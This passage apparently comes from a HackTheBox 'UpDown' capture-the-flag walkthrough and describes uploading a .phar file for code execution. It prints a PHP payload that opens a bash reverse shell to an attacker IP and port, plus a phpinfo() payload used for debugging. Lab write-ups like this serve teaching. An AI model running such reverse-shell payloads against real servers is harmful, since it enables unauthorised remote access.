 
With the following payload (and the local server opening the time window for me to check the uploads folder) we get execution but the revshell is not comming back:

- revi.phar

```php
http://10.10.14.41
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.41/5454 0>&1'"); ?>
```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/updown/4_2_exe.png" width="70%"/>
</p>


With the phpinfo() we can debug to see further information. Payload:

```php
http://10.10.14.41
<?php phpinfo(); ?>
```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/updown/4_3_phpinfo.png" width="90%"/>
</p>
